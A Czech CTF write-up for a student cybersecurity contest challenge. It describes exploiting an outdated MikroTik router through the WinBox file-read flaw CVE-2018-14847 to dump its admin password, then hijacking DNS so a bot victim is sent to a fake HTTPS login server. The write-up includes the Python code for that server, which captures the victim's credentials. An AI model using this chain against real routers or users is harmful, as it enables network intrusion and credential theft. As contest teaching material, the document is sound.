


<div align="center">

# 🧩 MacroAge

[🇬🇧 English](README.md) · 🇨🇿 **Čeština**

</div>

## Kybersoutěž 2. kolo 2026

> **Kybersoutěž** je česká národní soutěž v kybernetické bezpečnosti určená studentům základních, středních i vysokých škol ve věku 9–24 let. Je pořádána ve formátu CTF a jejím cílem je rozvíjet digitální dovednosti, vyhledávat talenty a zvyšovat povědomí o kybernetických hrozbách mezi mladou generací v České republice.

### Přehled

Síťová/infrastrukturní výzva: připojit se do interní sítě soutěže přes SSH tunel, prolomit zastaralý a zranitelný MikroTik router, pomocí získaného přístupu přesměrovat DNS provoz jiného uživatele na server pod vlastní kontrolou, sklidit přihlašovací údaje a nakonec se přihlásit do interní aplikace „meme store", kde je vlajka ukrytá v jednom z memů.

**Zadání výzvy (přeloženo):**

> Společně s Váma do vaší oblíbené kavárny chodí i Váš kolega Chrudoš, který má přímo zlatý důl memes. Ovšem kulišák si je nechává pouze pro sebe a odmítá se o ně s Vámi podělit. Vzpomněl jste si že jeden z Vašich dalších kolegů se chlubil že dokázal najít chybu v zabezpečení sítě kavárny. Dokážete i Vy najít nějakou chybu a získat tak přístup k memes?

**Schéma sítě** dodané k zadání:



---

### Řetězec útoku

1. Připojit se do soutěžního prostředí přes **SSH tunel** (local port forwarding), aby byly interní služby dostupné z lokálního stroje.
2. Dostat se na webové administrační rozhraní starého, zranitelného **MikroTik RouterOS**, který sedí na bráně sítě.
3. Exploitovat ho pomocí **Metasploitu / veřejného WinBox PoC** a stáhnout z routeru přihlašovací údaje.
4. Pomocí získaných administrátorských přihlašovacích údajů k routeru se přihlásit a **změnit konfiguraci DNS** tak, aby obětní uživatel (ten „robot", co pravidelně navštěvuje meme store) resolvoval cílovou doménu na server pod útočníkovou kontrolou místo toho skutečného.
5. Na tomto útočníkově serveru postavit falešnou přihlašovací stránku, která **zachytí přihlašovací údaje oběti** ve chvíli, kdy je na ni přesměrována.
6. Pomocí takto sklizených údajů se přihlásit do skutečné aplikace meme store.
7. Projít galerii a najít vlajku ukrytou jako text vypálený do jednoho z nahraných memů.

---

### Analýza zranitelnosti

#### Krok 1 — Dostat se do interní sítě

Cílové služby nejsou přímo dostupné zvenčí — výzva vyžaduje nejdřív protunelování do interní podsítě. SSH tunel s local port forwardingem zpřístupní příslušné interní hosty/porty na `localhost`, takže další požadavky a nástroje už míří jen na `127.0.0.1`:

```bash
ssh -L <lokální-port>:<interní-host>:<interní-port> user@<jump-host>
```

#### Krok 2 — Exploitace MikroTik WinBoxu

Brána na schématu je starý MikroTik router s otevřenou WinBox administrační službou. Tahle verze je zranitelná vůči známé zranitelnosti **libovolného čtení souborů** v MikroTik WinBox protokolu (CVE-2018-14847), zneužitelné přes endpoint routeru `/jsproxy`. Provoz zachycený během exploitace ukazuje přesně tuhle interakci proti routeru:

```
POST /jsproxy HTTP/1.1
Host: 10.89.5.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
```

Spuštění veřejného nástroje pro čtení souborů přes WinBox proti routeru stáhne přímo z přístroje databázi uživatelů (`user.dat`), ve které je lokální administrátorský účet a jeho heslo:

```
$ ./winbox_fileread <ip-routeru> user.dat
 [0] admin
 [1] admin
 [2] admin	K3ktusW4sH3re??1
```

Tím je získaný plný administrátorský přístup ke konfiguraci routeru.

#### Krok 3 — Otrávení DNS a odposlech oběti

S administrátorským přístupem k routeru je dalším krokem upravit jeho **nastavení DNS** tak, aby konkrétní hostname — ten, který skutečně používá oběť (automatizovaný „robot" uživatel, co se pravidelně přihlašuje do meme storu) — resolvoval na IP adresu pod kontrolou útočníka místo na skutečný server meme storu.

Minimalistický HTTPS listener se self-signed certifikátem odpovídajícím očekávanému hostname stačí na to, aby klient přijal spojení bez okamžitého varování:

```bash
# Vygenerovat certifikát odpovídající unesenému hostname
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 1 -nodes \
    -subj "/CN=immch.kyblsoutez.cz"

# Minimalistický HTTPS "login" server pro zachycení údajů
sudo python3 -c '
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

class H(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200); self.end_headers()
        self.wfile.write(b"<h1>Login</h1>")

    def do_POST(self):
        d = self.rfile.read(int(self.headers.get("Content-Length", 0)))
        print(f"[!] {self.path}: {d.decode()}")
        self.send_response(200); self.end_headers()
        self.wfile.write(b"{\"status\":\"ok\"}")

s = HTTPServer(("0.0.0.0", 443), H)
ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
ctx.load_cert_chain("cert.pem", "key.pem")
s.socket = ctx.wrap_socket(s.socket, server_side=True)
s.serve_forever()'
```

Jakmile se změna DNS propaguje a pravidelný pokus oběti o přihlášení je přesměrován sem místo na skutečný web, její přihlašovací údaje se objeví přímo v konzoli:

```
[!] /api/login: {"username":"useroiJEIwaUIYQEtPWsLQb892j2@mail.cz","password":"jLOvXYrNRF74"}
```

---

### Exploitace

S platnými, sklizenými přihlašovacími údaji (`useroiJEIwaUIYQEtPWsLQb892j2@mail.cz` / `jLOvXYrNRF74`) stačí se do skutečné aplikace meme store (dosažitelné přes stejný SSH tunel) přihlásit přímo v prohlížeči. Po přihlášení se zobrazí galerie memů — a mezi nimi i Chrudošova sbírka, včetně jednoho obrázku, kde je vlajka přímo vypálená do obrázku jako popisek:



### Vlajka

```
NSKB{M1kroT1k_h4d_som3_flaws_d1dnt_he_h3h32?_sy2xys3VlTVbylwY}
```
</content>
